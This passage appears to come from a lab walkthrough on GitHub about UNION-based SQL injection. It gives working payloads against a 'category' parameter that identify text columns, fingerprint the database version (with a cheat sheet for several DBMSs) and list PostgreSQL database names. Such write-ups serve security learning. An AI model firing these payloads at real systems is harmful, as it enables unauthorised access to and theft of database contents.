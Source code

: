 #### Columns containing text:
1. Inject the ```category``` parameter with the following payload ```'+UNION+SELECT+'a',NULL--``` <br/>
      => If an ```Internal Server Error``` occurs, then the first column does not contain string type data.
2. And then, inject the vulnerable parameter with ```'+UNION+SELECT+NULL,'a'--``` <br/>
      => If an ```Internal Server Error``` is returned, then the second column does not contain string type data.

> 📍 ***In this Lab, both columns contain text.*** 

#### Database version: 
Each ```DBMS``` (Database Management System) has its own syntax to retrieve the version, and since we don't know which one we are dealing with, let's try the most popular ones. <br/>
Here is a great [Cheat-Sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet) you can refer to when exploiting SQL injection:<br/>

:bulb: **Cheat-Sheet:** <br/>
1. Oracle: <br/>
```SQL
SELECT banner FROM v$version
```
```SQL
SELECT version FROM v$instance
```
2. Microsoft & MySQL: <br/>
```SQL
SELECT @@version
```
3. PostgreSQL <br/>
```SQL
SELECT version()
```
> In this Lab, the back-end DBMS is ```PostgreSQL```<br/>

* Let's retrieve the database version, by sending the following payload: ```'+UNION+SELECT+NULL,version()--```<br/>

![Retrieving the version](https://user-images.githubusercontent.com/101610095/220288617-b05e864a-2e5f-454e-9bf7-8c129bbd5de4.png)

#### Current database name: 
* Retrieving the current database name syntax for ```PostgreSQL``` DBMS: 
```SQL
SELECT current_database()
```
* <font color="white"><srong>Inject the vulnerable parameter with the following payload:</font></strong>: ```'+UNION+SELECT+NULL,current_database()--```<br/>

![CurrentDB_name](https://user-images.githubusercontent.com/101610095/220291423-76f2c3a0-aaf9-4a32-8b51-b92e3a3ab821.png)

#### Databases names: 
* Retrieving databases names syntax for ```PostgreSQL``` DBMS: 
```SQL
SELECT datname FROM pg_database
```
* <font color="white"><srong>Inject the vulnerable parameter with the following payload:</font></strong> ```'+UNION+SELECT+NULL,datname+FROM+pg_database--```<br/>
